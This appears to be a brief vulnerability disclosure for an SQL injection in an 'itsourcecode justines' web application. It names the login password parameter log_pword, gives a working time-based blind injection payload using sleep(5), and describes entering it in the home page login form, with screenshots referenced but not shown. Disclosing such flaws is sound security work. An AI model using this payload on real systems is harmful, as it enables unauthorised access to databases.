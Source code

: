 # itsourcecode_justines_sql_vul

#### Some information

Vulnerability type: SQL injection

Position: "body"

ParamKey: "log_pword"

payload: "1234'and(select*from(select+sleep(5))a/\*\*/union/\*\*/select+1)='"

#### Process description

On the justines home page, enter payload in the login password field. The injection is effective.

![sql_1](sql_1.JPG)

Packet capture data.

![sql_2](sql_2.JPG)

